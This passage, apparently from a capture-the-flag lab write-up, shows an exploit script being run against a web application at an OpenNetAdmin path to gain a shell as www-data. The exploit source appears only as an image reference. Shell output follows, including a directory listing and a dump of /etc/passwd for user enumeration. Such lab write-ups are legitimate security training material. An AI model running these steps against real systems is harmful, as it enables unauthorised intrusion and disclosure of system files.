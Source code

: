 I ran this exploit against the box by copying the code to a file (I called mine exploit.sh), making it executable by doing:

`chmod +x exploit.sh`

and then executing it using: 

`bash exploit.sh http://10.10.10.171/ona/`

this gives us a shell as www-data

```
$ whoami
www-data
$ ls -la
total 72
drwxrwxr-x 10 www-data www-data 4096 Nov 22 17:17 .
drwxr-x---  7 www-data www-data 4096 Nov 21 18:23 ..
-rw-rw-r--  1 www-data www-data 1970 Jan  3  2018 .htaccess.example
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 config
-rw-rw-r--  1 www-data www-data 1949 Jan  3  2018 config_dnld.php
-rw-rw-r--  1 www-data www-data 4160 Jan  3  2018 dcm.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 images
drwxrwxr-x  9 www-data www-data 4096 Jan  3  2018 include
-rw-rw-r--  1 www-data www-data 1999 Jan  3  2018 index.php
drwxrwxr-x  5 www-data www-data 4096 Jan  3  2018 local
-rw-rw-r--  1 www-data www-data 4526 Jan  3  2018 login.php
-rw-rw-r--  1 www-data www-data 1106 Jan  3  2018 logout.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 modules
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 plugins
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 winc
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 workspace_plugins
```

### User Enumeration

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```